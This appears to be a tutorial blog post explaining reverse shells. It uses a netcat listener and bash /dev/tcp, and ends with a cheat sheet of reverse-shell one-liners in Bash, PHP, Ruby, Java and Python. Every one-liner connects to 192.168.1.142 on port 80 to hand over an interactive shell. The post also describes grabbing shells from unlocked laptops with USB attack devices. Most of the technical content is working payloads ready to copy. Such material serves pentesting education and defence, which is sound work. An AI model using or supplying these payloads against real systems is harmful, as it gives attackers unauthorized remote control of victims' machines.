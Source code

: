 ![](https://www.offensive-security.com/wp-content/uploads/2016/03/using-exploits.png)

Whats a reverse shell? 

Not quite but, you aren’t alone in ignorance. It is surprising that the number of folks that don’t actually know what a reverse shell is. Long story short, it is when one computer connects to another computer but the initiating computer forwards their shell to the destination. It is commonplace that a reverse shell happens during an attack or as part of a pentest. They are scary attacks because it gives an attacker an interactive shell on a machine that they should not have had access to inside of the “hardened” area.

- Lets break down how this works. 
First there is a machine listening somewhere on a specific tcp port. In this case using netcat.

```bash
$ nc -vlp 80 
-v, — verbose Set verbosity level (can be used several times); 
-l, — listen Bind and listen for incoming connections; 
-p, — source-port port Specify source port to use 
(http://man7.org/linux/man-pages/man1/ncat.1.html) 
```
Simple enough, just a listener on a specific port. Second, we will need another machine, the victim, to connect to this machine and then forward the session to it. There are countless ways to setup this connection depending what resources are available. This is how to do it with bash


```bash
$ bash -i >& /dev/tcp/192.168.1.142/80 0>&1
```
The command *bash -i >&* invokes bash with an “interactive” option. Then */dev/tcp/192.168.1.142/7023* redirects that session to a tcp socket via device file. 
Finally *0>&1* Takes standard output, and connects it to standard input.

It turns out linux has built a */dev/tcp* device file. While powerful and useful this file can be extremely dangerous when used in this way. This built in device file lets bash connect directly to any ip and any port out there. This also works well if you want to confirm a port is open, or check the time.

```bash
$ echo > /dev/tcp/192.168.1.142/22 
-bash: connect: Connection refused. ( yey no ssh is open !)

$ echo > /dev/tcp/www.google.com/80

$ cat </dev/tcp/time.nist.gov/13

57991 17-08-26 13:39:06 50 0 0   0.0 UTC(NIST) *
```

What’s so scary about this? Well, netcat can be listening on any port, and in the example it listened on port 80. This means that the connection and all the traffic flowing through that pipe is going to look like regular http traffic and if that port is open on one of your hosts (as it usually is) then it doesn’t matter what kind of firewall you have, it isn’t going to stop a reverse shell from owning you. Subsequently it doesn’t stop a machine from inside your firewall that has access to the internet **cough**cough laptops, from using the allowable port, and then pivoting to anything that can be accessible on the internal lan.

Reverse shells are really fun to play with especially if you have something like a rubber ducky or a bash bunny. That lets you walk up to an unsecured laptop (that you have legitimate access to of course) and snag a shell. Then wait for your victim to come back and…

```bash
$ say “im sorry dave i can’t let you do that, you should have locked your computer"
$ sudo reboot
```
Finally, here are examples of allowing a shell through in a whole bunch of different languages, because well not everything has bash, just most of the things.

```bash
Bash
exec 5<>/dev/tcp/192.168.1.142/80
cat <&5 | while read line; do $line 2>&5 >&5; done 
# or:
while read line 0<&5; do $line 2>&5 >&5; done

PHP
php -r ‘$sock=fsockopen(“192.168.1.142”,80);exec(“/bin/sh -i <&3 >&3 2>&3”);’
(Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)

RUBY
ruby -rsocket -e’f=TCPSocket.open(“192.168.1.142”,80).to_i;exec sprintf(“/bin/sh -i <&%d >&%d 2>&%d”,f,f,f)’

JAVA
r = Runtime.getRuntime()
p = r.exec([“/bin/bash”,”-c”,”exec 5<>/dev/tcp/192.168.1.142/80;cat <&5 | while read line; do \$line 2>&5 >&5; done”] as String[])
p.waitFor()

PYTHON
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.142”,80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
```







